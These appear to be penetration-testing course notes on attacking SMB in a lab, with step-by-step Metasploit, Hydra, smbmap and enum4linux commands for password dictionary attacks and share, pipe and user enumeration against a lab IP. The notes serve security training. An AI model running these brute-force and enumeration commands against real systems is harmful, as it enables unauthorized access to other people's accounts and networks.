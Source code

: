 - Most of what has been covered up till now in the course involves NULL logins, or anonymous logins, as they are more famously known as.
- But there are cases where such misconfigurations are not be found, in such scenarios we can use dictionary attacks with wordlists of known passwords to try to find the credentials in use.
- The most used wordlist in the course, and subsequently the exam will be rockyou.txt.

 SMB Dictionary Attacks using Metasploit
	- `msfconsole`
	- `use auxiliary/scanner/smb/smb_login`
	- `show options`
	- `set RHOSTS 192.125.26.3`
	- `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
	- `set smbuser jane`
	- `show options`
	- `run`
	- `exit`

SMB Dictionary Attacks using Hydra
	- Decompressing the rockyou.txt wordlist file to use with Hydra: `gzip -d /usr/share/wordlists/rockyou.txt.gz`
	- Using Hydra to perform the dictionary attack: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.125.26.3 smb`
	- In Hydra, lowercase flags are used to specify unique values entered along with the command, like admin for username in the command above, and uppercase values are used to pass an input file to use instead.
	- The protocol to target for the attack needs to be specified in the command as well.

SMB User Access Permission Enumeration using smbmap
	- `smbmap -H 192.125.26.3 -u admin -p password1`

SMB is a protocol that can be used for many different services, the way services talk to one another through pipes, names pipes are pipes that are known. If we can get into SMB, there is a chance that we can get into other services that are piped through it.

SMB pipes enumeration using Metasploit Framework
	- `msfconsole`
	- `use auxiliary/scanner/smb/pipe_auditor`
	- `set smbuser admin`
	- `set smbpass password1`
	- `set RHOSTS 192.125.26.3`
	- `show options`
	- `run`

Enumerating user SIDs with admin privilege using enum4linux
	- `enum4linux -r -u "admin" -p "password1" 192.125.26.3`